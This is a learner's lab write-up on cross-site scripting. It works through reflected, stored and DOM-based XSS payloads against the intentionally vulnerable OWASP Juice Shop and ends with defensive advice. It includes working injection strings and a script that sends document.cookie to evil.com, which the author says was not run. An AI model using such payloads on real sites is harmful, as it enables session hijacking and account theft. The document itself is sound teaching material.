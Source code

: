 # 🌐 Day 5 – Understanding and Exploiting Cross-Site Scripting (XSS)

## 🔹 Introduction

Today’s focus is on **Cross-Site Scripting (XSS)** — one of the **most common and dangerous web vulnerabilities**.

At its core, XSS is about tricking a web application into executing **malicious JavaScript** inside the victim’s browser.

Why is this scary?

Because if an attacker can run *any* code in your browser, they can:

- Steal your **cookies** or session tokens (account takeover).
- Modify the page you see (phishing, fake forms, redirecting).
- Spread malware.

Think of it like this:

👉 The website is the stage.

👉 The browser is the audience.

👉 XSS lets attackers sneak their own script into the play — and the audience believes it’s part of the original show.

---

## 🔹 Types of XSS

1. **Reflected XSS** (a one-time echo)
    - Payload is part of the request (URL, form input).
    - Reflected immediately in the response.
    - Works only when the victim clicks the crafted link.
    - 📖 *Analogy*: Shouting into a cave and hearing your own echo right back.
2. **Stored XSS** (a permanent trap)
    - Payload gets stored in the database or server.
    - Every visitor sees the malicious script.
    - 📖 *Analogy*: Graffiti sprayed on a public wall — everyone passing by sees it.
3. **DOM-Based XSS** (the client-side twist)
    - Payload is executed by client-side JavaScript, without touching the server.
    - Happens when developers manipulate the DOM with unsanitized input.
    - 📖 *Analogy*: Writing your own sticky note and slapping it onto the app’s UI — the system never knew it happened.

---

## 🔹 Our Lab Setup

We used **OWASP Juice Shop**, a purposely vulnerable web application, to practice exploiting XSS.

All attacks were carried out in a safe lab environment.

---

## 🔹 Practical Work

### 1. Reflected XSS

- **Payload used:**
    
    ```html
    <img src=x onerror=alert('XSS')>
    ```
    
- **Steps:**
    - Injected this payload into a search box.
    - Page reflected it back without escaping.
- **Result:**
    
    ✅ A popup appeared with **“XSS”**.
    
    - This proves the input was reflected directly into the page → unsafe.

---

### 2. Stored XSS

- **Payload used (Feedback form):**
    
    ```html
    <script>alert('DOMXSS')</script>
    ```
    
- **Steps:**
    - Submitted this in the feedback/comment form.
    - Juice Shop saved the payload in its database.
    - On returning to the feedback page, the payload executed.
- **Result:**
    
    ✅ Every visitor to that page saw a popup **“DOMXSS”**.
    
    - In the real world, this could mean malicious scripts running for *all users*, not just us.

---

### 3. DOM-Based XSS

- **Observation:**
    
    When testing dynamic JavaScript functions, we saw console logs and error traces:
    
    Then I tried:
    
    ```
    ERROR Error: NG04002: 'DOMXSS'
    ```
    
    Then I tried:
    
    ```
    http://localhost:3000/#/search?q=<iframe src=javascript:alert('DOMXSS')>
    ```
    
- **Result:**

✅ A popup also confirmed execution in some contexts.

- This shows the browser executed input directly in the **client-side DOM**, not through the server.

---

### 4. Theoretical Impact: Cookie Theft

- A dangerous payload could look like this:
    
    ```html
    <script>
    fetch("http://evil.com/steal?cookie=" + document.cookie)
    </script>
    ```
    
- If successful:
    - Attacker steals the victim’s session cookie.
    - Victim’s account can be hijacked.
- ⚠️ We did **not** run this in practice (unsafe), but it demonstrates the real power of XSS.

---

## 🔹 Why This Matters

XSS isn’t just about funny popups — it’s about **trust**.

- If I can run JavaScript on your banking app, I can empty your account.
- If I can inject scripts in your email app, I can phish your password.
- If I can modify what you see, I control your reality.

That’s why modern defenses exist:

- **Input validation** (never trust user input).
- **Output encoding** (escape special characters per context).
- **Content Security Policy (CSP)** to block inline scripts.

---

## 🔹 Key Takeaways

- **Reflected XSS** → Comes from the request.
- **Stored XSS** → Saved on the server, affects everyone.
- **DOM XSS** → Purely client-side, from JavaScript handling input.
- Even in a small demo, we saw how XSS could persist, reflect, and execute.
- Real-world impact goes far beyond alerts → session hijacking, data theft, and phishing.

---

## 🔹 Evidence from Our Lab

- Reflected XSS popup: **“XSS”** ✅
- Stored XSS popup: **“DOMXSS”** ✅
- DOM-based XSS console logs + popup ✅

---

## ✅ Conclusion

Today’s lesson on **Cross-Site Scripting** showed us not just how to exploit it, but also why it’s dangerous.

Every popup was proof that the browser was executing *our* code instead of just the website’s.

📌 For developers: Always validate and escape input in the right context.

📌 For learners: Never stop at “alert(1)” — always ask: *“What could an attacker do with this?”*